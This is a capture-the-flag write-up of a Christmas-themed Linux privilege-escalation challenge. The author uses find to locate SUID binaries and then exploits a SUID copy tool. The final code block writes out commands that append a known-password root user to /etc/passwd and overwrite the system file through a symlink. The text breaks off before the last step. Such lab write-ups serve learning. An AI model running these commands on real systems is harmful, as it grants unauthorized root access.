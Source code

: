 # Linux PrivESC:
When I first started the challenge, I was greeted with:

```txt
In a digital winter wonderland we play,
Where elves and bytes in harmony lay.
This festive terminal is clear and bright,
Escalate privileges, and bring forth the light.

Start in the land of bash, where you reside,
But to win this game, to root you must glide.
Climb the ladder, permissions to seize,
Unravel the mystery, with elegance and ease.

There lies a gift, in the root's domain,
An executable file to run, the prize you'll obtain.
The game is won, the challenge complete,
Merry Christmas to all, and to all, a root feat!

* Find a method to escalate privileges inside this terminal and then run the binary in /root *
```

Using the article provided by the hint *Linux Privilege Escalation Guide (Updated for 2023)* by Rashid-Ferose published by Payatu, I tried the strategies provided by the article. When I came across this:

![](../images/Linux-PrivEsc-part-1.png)

It seemed interesting. In order to see if the Linux system I was working on had anything that could be used for a privilege escalation attack that also had a SUID bit set, I used this command:

```txt
find / -perm -u=s -type f 2>/dev/null
```

After I executed the command, the result was:

![](../images/Linux-PrivEsc-part-2.png)

The simplecopy command seemed interesting. Since it had a sudo attribute set, I could theoretically use it to perform a linux privelege escalation attack by overwrititng the password file to give me root access. But first I needed to check if simplecopy had was an actual file copier, so I ran:

```txt
simplecopy
```

After I executed the command, the result was:

`Usage: simplecopy <source> <destination>`

So simplecopy is basically the `cp` command but with a SUID bit set. Now I only need to check if simplecopy has root read and write permissons. In order to do this, I typed:

```txt
ls -la /usr/bin/simplecopy
```

After I executed the command, the result was:

![](../images/Linux-PrivEsc-part-4.png)

Simplecopy has root read and write permissions. I then read the article *Linux Privilege Esclation using the SUID bit* by Rangeforce, where I found this interesting bit:

![](../images/Linux-PrivEsc-part-5.png)

Simplecopy can read and write. This could be the solution. I then continued to read:

![](../images/Linux-PrivEsc-part-6.png)

I then followed the instructions, and typed:

```txt
mkdir source
cp /etc/passwd source/passwd
echo 'root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash' >> source/passwd
ln -s /etc destination
simplecopy source/passwd destination
su root2
```
When asked for the password for the `su` user root2, I typed `mrcake` (WVLY0mgH0RtUI is mrcake encrypted as mentioned by the article that root2's password is mrcake). I then gained root access. Since I had to run the binary that was in the `/root` folder, I typed:






